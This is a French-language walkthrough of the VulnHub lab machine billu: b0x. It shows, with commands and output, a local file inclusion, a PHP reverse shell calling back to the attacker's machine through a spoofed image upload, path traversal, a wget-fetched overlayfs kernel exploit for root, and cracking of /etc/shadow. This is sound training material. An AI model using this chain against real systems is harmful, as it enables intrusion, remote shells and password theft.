


# billu: b0x

[billu: b0x](https://www.vulnhub.com/entry/billu-b0x,188/) est une machine virtuelle vulnérable, conçue par 
[Manish Kishan Tanwar](https://twitter.com/indishell1046) et publiée sur VulnHub au mois d'avril 2019. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Recherche d'informations

Pour commencer, les outils [__netdiscover__](https://github.com/alexxy/netdiscover), [__arp-scan__](https://linux.die.net/man/1/arp-scan) et [__nmap__](https://nmap.org/book/man.html) sont lancés afin de retrouver la même information : l'adresse IP de la VM billu: b0x (192.168.56.107). Inutile de lancer systématiquement les trois outils, l'exercice ici est de trouver des alternatives à __netdiscover__, qui est systématiquement utilisé dans mes autres _walkthroughs_.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
4 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 240
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:38:27:38      2     120  PCS Systemtechnik GmbH
192.168.56.107  08:00:27:1c:31:b1      1      60  PCS Systemtechnik GmbH


root@blinils:~# nmap -sn 192.168.56.0/24
Nmap scan report for 192.168.56.1
Host is up (0.00027s latency).
MAC Address: 0A:00:27:00:00:10 (Unknown)
Nmap scan report for 192.168.56.100
Host is up (0.00038s latency).
MAC Address: 08:00:27:38:27:38 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.107
Host is up (0.0020s latency).
MAC Address: 08:00:27:1C:31:B1 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.102
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 34.75 seconds


root@blinils:~# arp-scan 192.168.56.0/24
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9.5 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:10	(Unknown)
192.168.56.100	08:00:27:38:27:38	Cadmus Computer Systems
192.168.56.100	08:00:27:38:27:38	Cadmus Computer Systems (DUP: 2)
192.168.56.107	08:00:27:1c:31:b1	Cadmus Computer Systems

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.5: 256 hosts scanned in 2.472 seconds (103.56 hosts/sec). 4 responded
```

Toute phase d'attaque commence par une analyse du système cible. Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Seuls deux ports TCP sont ouverts : un accès SSH (port 22) et un serveur Web Apache (port 80) sur lequel le script NSE (_Nmap Scripting Engine_) ```http-enum``` a détecté la présence d'une page ```test.php``` !

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.107 --script=http-enum
Nmap scan report for 192.168.56.107
Host is up (0.00028s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-enum: 
|   /test.php: Test page
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 08:00:27:1C:31:B1 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Local File Inclusion (LFI) sur la page test.php



Très rapidement, on devine une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_local file inclusion_ en anglais) sur la page ```test.php``` et son paramètre ```action```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre ```file```.

Un exemple ? Le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système. La méthode [GET](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre ```file``` est inclus dans l'URL) est testée en premier  : aucun résultat. La méthode [POST](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre est situé dans le corps de la requête) est ensuite testée : bingo !

```console
root@blinils:~# curl http://192.168.56.107/test.php
'file' parameter is empty. Please provide file path in 'file' parameter

root@blinils:~# curl http://192.168.56.107/test.php?file=/etc/passwd
'file' parameter is empty. Please provide file path in 'file' parameter

root@blinils:~# curl http://192.168.56.107/test.php --data "file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
--snip--
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```

Cette LFI nous donne l'occasion de consulter non seulement le code source de la page ```test.php``` elle-même...

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/test.php"
--snip--
		header("Content-Description: File Transfer"); 
			
		header('Content-Transfer-Encoding: binary');
		header('Expires: 0');
		header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
		header('Pragma: public');
		header('Accept-Ranges: bytes');
		header('Content-Disposition: attachment; filename="'.basename($download).'"'); 
		header('Content-Length: ' . filesize($download));
		header('Content-Type: application/octet-stream'); 
		ob_clean();
		flush();
		readfile ($download);
--snip--
```

... mais également le code source de la page d'accueil ```index.php```...

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/index.php"
--snip--
if(isset($_POST['login']))
{
	$uname=str_replace('\'','',urldecode($_POST['un']));
	$pass=str_replace('\'','',urldecode($_POST['ps']));
	$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
	$result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
	   echo "You are allowed<br>";
	   $_SESSION['logged']=true;
	   $_SESSION['admin']=$row['username'];
	   
	 header('Location: panel.php', true, 302);
--snip--
```

... ou encore le fichier ```c.php``` contenant les identifiants de connexion à la base de données MySQL.

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/c.php"
--snip--

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }
--snip--
```

## Injection SQL sur la page index.php ?

Le message situé au-dessus du formulaire de connexion nous incite à tester des [injections SQL](https://owasp.org/www-community/attacks/SQL_Injection). Le formulaire consiste en deux champs : un login (paramètre ```un```) et un mot de passe (paramètre ```ps```). Le principe est le suivant : les failles dites d'injection surviennent lorsqu'il n'y a pas de contrôle, de filtrage ou de validation sur les données entrantes. Une personne malveillante va alors pouvoir modifier le fonctionnement d'origine de ce formulaire, en y insérant des données non prévues.

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, __SQLMap__ vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL... et il semblerait au vu des résultats que ce soit une fausse piste !

```console
root@blinils:~# sqlmap -u "http://192.168.56.107/index.php" \
--dbms=MySQL --data="un=test&ps=test&login=let%27s+login" --risk=3 --level=5

--snip--

[11:12:13] [INFO] testing if POST parameter 'un' is dynamic
[11:12:13] [WARNING] POST parameter 'un' does not appear to be dynamic
[11:12:13] [WARNING] heuristic (basic) test shows that POST parameter 'un' might not be injectable
[11:12:13] [INFO] testing for SQL injection on POST parameter 'un'
--snip--
[11:22:33] [WARNING] POST parameter 'un' does not seem to be injectable
[11:22:33] [INFO] testing if POST parameter 'ps' is dynamic
[11:22:33] [WARNING] POST parameter 'ps' does not appear to be dynamic
[11:22:33] [WARNING] heuristic (basic) test shows that POST parameter 'ps' might not be injectable
[11:22:33] [INFO] testing for SQL injection on POST parameter 'ps'
--snip--
[11:32:22] [WARNING] POST parameter 'ps' does not seem to be injectable
[11:32:22] [INFO] testing if POST parameter 'login' is dynamic
[11:32:22] [WARNING] POST parameter 'login' does not appear to be dynamic
[11:32:22] [WARNING] heuristic (basic) test shows that POST parameter 'login' might not be injectable
[11:32:22] [INFO] testing for SQL injection on POST parameter 'login'
--snip--
[11:33:55] [WARNING] POST parameter 'login' does not seem to be injectable
[11:33:55] [INFO] testing if Referer parameter 'Referer' is dynamic
[11:33:55] [WARNING] Referer parameter 'Referer' does not appear to be dynamic
[11:33:55] [WARNING] heuristic (basic) test shows that Referer parameter 'Referer' might not be injectable
[11:33:55] [INFO] testing for SQL injection on Referer parameter 'Referer'
--snip--
[11:35:55] [WARNING] User-Agent parameter 'User-Agent' does not seem to be injectable
[11:35:55] [CRITICAL] all tested parameters do not appear to be injectable.
--snip--
```

Cela dit, la phase d'énumération de notre VM cible n'est pas tout à fait terminée.

## À la recherche d'autres pistes avec DIRB

En effet, la page ```test.php``` a pu être découverte à l'aide du script ```http-enum``` de __nmap__. Pour autant, y a-t-il d'autres fichiers ou répertoires « cachés » présents sur le site ? Pour le savoir, l'outil [__DIRB__](https://tools.kali.org/web-applications/dirb) va se servir d'une liste pré-établie de répertoires afin de déterminer l'arborescence du site. Il s'agit là d'une [attaque par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking), a contrario d'une [attaque par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consisterait à tester, de manière exhaustive, toutes les combinaisons possibles : aa, ab, ac... zy zz aaa aab... zzy zzz aaaa aaab... et ainsi de suite. __DIRB__ dispose d'un [large panel de dictionnaires](https://github.com/digination/dirbuster-ng/tree/master/wordlists), ainsi plusieurs résultats sont renvoyés avec le dictionnaire big.txt.

```console
root@blinils:~# dirb http://192.168.56.107 /usr/share/dirb/wordlists/big.txt

--snip--
URL_BASE: http://192.168.56.107/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458

---- Scanning URL: http://192.168.56.107/ ----
+ http://192.168.56.107/add (CODE:200|SIZE:307)
+ http://192.168.56.107/c (CODE:200|SIZE:1)
+ http://192.168.56.107/cgi-bin/ (CODE:403|SIZE:290)
+ http://192.168.56.107/head (CODE:200|SIZE:2793)
==> DIRECTORY: http://192.168.56.107/images/
+ http://192.168.56.107/in (CODE:200|SIZE:47554)
+ http://192.168.56.107/index (CODE:200|SIZE:3267)
+ http://192.168.56.107/index.php (CODE:200|SIZE:3267)
+ http://192.168.56.107/panel (CODE:302|SIZE:2469)
==> DIRECTORY: http://192.168.56.107/phpmy/
+ http://192.168.56.107/server-status (CODE:403|SIZE:295)
+ http://192.168.56.107/show (CODE:200|SIZE:1)
+ http://192.168.56.107/test (CODE:200|SIZE:72)
==> DIRECTORY: http://192.168.56.107/uploaded_images/
--snip--
```

* ```/add``` semble être un formulaire d'upload d'images, écrit en PHP
* ```/c``` est la page contenant les identifiants de connexion à MySQL
* ```/cgi-bin``` est lié à Apache et à [CGI](https://httpd.apache.org/docs/2.4/fr/howto/cgi.html) (_Common Gateway Interface_)
* ```/head``` est le header du fichier ```index.php``` et contient notamment les feuilles de style CSS
* ```/images``` contient trois images, visibles grâce au [_directory listing_](https://www.it-connect.fr/quest-ce-que-le-directory-browsinglisting/) activé
* ```/in``` est [une page phpinfo()](https://www.php.net/manual/fr/function.phpinfo.php) avec plein d'infos dedans !
* ```/index``` et ```/index.php``` sont des alias de la page d'accueil avec la vraie-fausse injection SQL
* ```/panel``` est le menu censé apparaître après une connexion valide au site Web
* ```/phpmy``` === [PHPMyAdmin](https://doc.ubuntu-fr.org/phpmyadmin), une interface Web en PHP pour administrer un SGBD MySQL
* ```/server-status``` est lié au [module Apache mod_status](https://httpd.apache.org/docs/current/en/mod/mod_status.html)
* ```/show``` semble afficher les images de l'utilisateur courant (?)
* ```/test``` est la fameuse page vulnérable à l'inclusion de fichier local
* ```/uploaded_images``` doit être le répertoire où les images uploadées via ```add.php``` sont stockées

## Récupération des identifiants de connexion via PHPMyAdmin

La connexion à PHPMyAdmin est réalisée à l'aide du couple d'identifiants ```billu:b0x_billu``` trouvé dans le code source de la page ```c.php```. Trois tables ```auth```, ```download``` et ```users``` sont dans la base de données ```ica_lab``` !

```console
SELECT * FROM `auth` LIMIT 0, 30
id     uname      pass
1      biLLu      hEx_it

SELECT * FROM `download` LIMIT 0, 30
id     image_name              location
1      Marine ford             images/marine.jpg
2      Luffy fourth gear       images/Gear_Four_luffy.jpg
3      Newgate Vs Teach        images/Newgate_Vs_Teach.jpg
4      straw-hat crew          images/straw_hat_crew.jpg
5      Whitebeard luffy ace    images/Whitebeard_luffy_ace.jpg

SELECT * FROM `users` LIMIT 0, 30

id   name                image                address
1    Jack                jack.jpg             Jack sparrow, Pirate of the caribbean
2    Captain Barbossa    CaptBarbossa.JPG     Captain Barbossa, pirate of the caribbean
```

L'upload d'un webshell via PHPMyAdmin n'a pas fonctionné, il faudra passer par les IHM avec le couple d'identifiants ```biLLu:hEx_it``` !



## Formulaire d'upload et dépôt d'un reverse shell

La fonction ```Show Users``` affiche toutes les informations de la table ```users```.

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/show.php"
--snip--
	$run='select * from users ';
--snip--
	   echo '<tr><td>'.$row['id'].'</td><td>'.htmlspecialchars ($row['name'],ENT_COMPAT).'</td><td>'.htmlspecialchars ($row['address'],ENT_COMPAT).'</td><td>
	   </td></tr>';
--snip--
```


La fonction ```Add User``` permet de créer une entrée dans la table ```users``` et surtout d'uploader une image. L'objectif est de détourner la fonction d'upload et de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle.

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/add.php"
--snip--
    Select image to upload:
    <input type="file" name=image>
	<input type=text name=name value="name">
	<input type=text name=address value="address">
	<input type=text name=id value=1337 >
    <input type="submit" value="upload" name="upload">
--snip--
```

Attention cependant, il y a des restrictions à l'upload !

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/panel.php"
--snip--
	$r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
	$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
				{
--snip--
			else
			{
				echo "<br>i told you dear, only png,jpg and gif file are allowed";
			}
	}
	else
	{
		echo "<br>only png,jpg and gif file are allowed";
		
	}
```

Le principe est le suivant : un reverse shell en PHP va être créé et déposé sur le serveur. Ce bout de code va créer une connexion sur le port 12345 entre le serveur billu: b0x (192.168.56.107) et notre propre machine (192.168.56.102). Le reverse shell mis à disposition par [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) va être mis en oeuvre.

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.102';  // CHANGE THIS
$port = 12345;           // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

La tentative d'upload du fichier [```php-rshell.php```](tools/php-rshell.php), tel quel, renvoie l'erreur _only png,jpg and gif file are allowed_. Si l'on modifie l'extension du fichier et que l'on uploade ```php-rshell.png``` sans en changer son contenu, la première condition ```if(in_array($r,$image))``` est satisfaite mais le message d'erreur est différent : _i told you dear, only png,jpg and gif file are allowed_.

La deuxième condition consiste en une vérification du [type MIME](https://fr.wikipedia.org/wiki/Type_de_m%C3%A9dias) du fichier. La requête transmise au serveur contient bien le bon ```Content-Type: image/png``` donc il s'agira là de modifier le [_magic number_](https://en.wikipedia.org/wiki/List_of_file_signatures) du fichier afin de le faire passer pour une image JPG ou PNG.

```console
root@blinils:~# file php-rshell.png 
php-reverse-shell.png: PHP script, ASCII text, with CRLF line terminators

root@blinils:~# printf "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52" | cat - php-rshell.png > rshell.png

root@blinils:~# file rshell.png 
rshell.png: PNG image data, 1010790504 x 1879902767, 47-bit
```

L'upload a réussi cette fois-ci, et notre _reverse shell_ a bien été téléversé dans le répertoire ```/uploaded_images```. Il ne reste plus qu'à l'appeler grâce à la portion de code ci-après de ```panel.php```.

```console
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}
```

Si le paramètre ```continue``` est transmis au serveur, alors le fichier fourni dans le paramètre ```load``` sera inclus dans la page. Ces deux paramètres doivent être appelés dans une requête POST à la page ```panel.php```, après s'être authentifié et donc avec le cookie de session approprié. À noter que le chemin est construit avec la variable ```$dir``` et non ```choice``` ce qui signifie que la fonction ```str_replace``` utilisée n'a aucun effet sur notre paramètre ```load``` !

```console
root@blinils:~# curl http://192.168.56.107/index.php --data "un=biLLu&ps=hEx_it&login=let's+login" -v --silent 2>&1 | grep Set-Cookie
< Set-Cookie: PHPSESSID=u35or2578hvdepjgj0ftsmkgj6; path=/

root@blinils:~# curl http://192.168.56.107/panel.php --data "continue=1&load=../../../../../../../../var/www/uploaded_images/php-rshell.png" --cookie "PHPSESSID=u35or2578hvdepjgj0ftsmkgj6;"
```

Et à côté, dans un autre terminal, une connexion entrante finit par arriver sur le port 12345.

```console
root@blinils:~# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.107: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.107] 50647
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
 22:41:42 up  8:50,  0 users,  load average: 0.03, 0.04, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

On applique ensuite les conseils de l'article [_Fixing a raw shell with Python and stty_](https://nullsec.us/fixing-a-raw-shell/) posté sur le site NullSecurity (@BeanBagKing), afin d'obtenir un shell tout beau tout propre.

```console
www-data@indishell:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@indishell:/$ uname -r -v
3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014
```

## Élévation de privilèges avec _'overlayfs' Local Privilege Escalation_

La version du noyau Linux est connue depuis le début du _walkthrough_ grâce à la page ```in.php``` et sa méthode ```phpinfo()```. Depuis 2014, des codes d'exploitation auront sûrement été publiés sur Internet pour cette version 3.13 du noyau Linux.

```console
root@blinils:~# curl http://192.168.56.107/in.php -v --silent 2>&1 | grep System
<tr><td class="e">System </td><td class="v">Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 </td></tr>
```

En l'occurrence [la VM Droopy](https://www.vulnhub.com/entry/droopy-v02,143/), dont la solution se trouve également [sur ce dépôt Github](/CTF-VulnLabs/droopy), proposait également un noyau Linux 3.13 et l'exploit [_'overlayfs' Local Privilege Escalation_](https://www.exploit-db.com/exploits/37292) avait particulièrement bien fonctionné. Bis repetita ?

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/local/37292.c .
root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...


www-data@indishell:/tmp$ wget -q http://192.168.56.102:8000/37292.c
www-data@indishell:/tmp$ gcc 37292.c -o 37292
www-data@indishell:/tmp$ chmod +x 37292
www-data@indishell:/tmp$ ./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

C'est gagné, nous sommes root !

## Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Pour conclure ce _walkthrough_, intéressons-nous au fichier ```/etc/shadow```. Celui-ci contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes.
L'outil __John The Ripper__ est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit...

```console
# cat /etc/shadow | grep "\\\$6\\\$"
root:$6$T.GOt736$vs6M/YHvGJA4urfn4G4VsS9CrnHy60/4ITw6MNo3uA37YFQmFVhcf3SjENDRf1zahO0eZARybZ5IxuegEB74d/:17244:0:99999:7:::
ica:$6$yAfsVVEV$UMXZ7KKc2Xhk6tTukMl.QkFN34d/PLRtKYZCFZzZKFyym3uzhVcWongiw1RIFtGJQyJL2a8vAwG13VHijFbzM.:17244:0:99999:7:::
```

Et surprise, __John The Ripper__ trouve aussitôt le mot de passe de root !

```console
root@blinils:~# john shadow-billu.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
roottoor         (root)
--snip--
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

La réponse était sous nos yeux depuis le début, dans le fichier ```config.inc.php``` de PHPMyAdmin ! Et en outre, le fichier ```sshd_config``` nous informe que les connexions distantes SSH sont autorisées pour le compte root.

```console
# grep -rnw /var -e 'roottoor' 2>/dev/null
/var/www/phpmy/config.inc.php:16:$cfg['Servers'][$i]['password'] = 'roottoor';

# cat /etc/ssh/sshd_config | grep PermitRootLogin
PermitRootLogin yes
# the setting of "PermitRootLogin without-password".
```

Il est ainsi possible de se connecter directement en tant que root au serveur billu: b0x.

```console
root@blinils:~# ssh root@192.168.56.107
root@192.168.56.107's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)
--snip--
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law.

root@indishell:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Merci à [Manish Kishan Tanwar](https://twitter.com/indishell1046) pour cette VM billu: b0x, j'ai hâte de m'attaquer à [la deuxième de la série](https://www.vulnhub.com/entry/billu-b0x-2,238/) !